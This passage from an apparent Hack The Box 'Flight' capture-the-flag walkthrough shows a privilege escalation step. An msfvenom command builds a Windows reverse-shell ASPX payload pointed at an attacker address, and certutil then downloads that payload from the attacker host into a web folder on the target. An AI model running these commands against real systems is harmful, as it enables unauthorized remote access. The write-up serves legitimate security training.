 ![flight_user.png](../assets/flight_assets/flight_user.png)

### Privilege Escalation

Now that we have a shell as user C.Bum, lets add a shell.aspx file to the development folder, which we think is the site running internally on port 8000.

We can create this with msfvenom:
````
┌──(ryan㉿kali)-[~/HTB/Flight]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.60 LPORT=1234 -a x64 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3416 bytes
````
```
C:\inetpub\development>certutil -urlcache -split -f "http://10.10.14.60/shell.aspx"
certutil -urlcache -split -f "http://10.10.14.60/shell.aspx"
****  Online  ****
  0000  ...
  0d58
CertUtil: -URLCache command completed successfully.
```
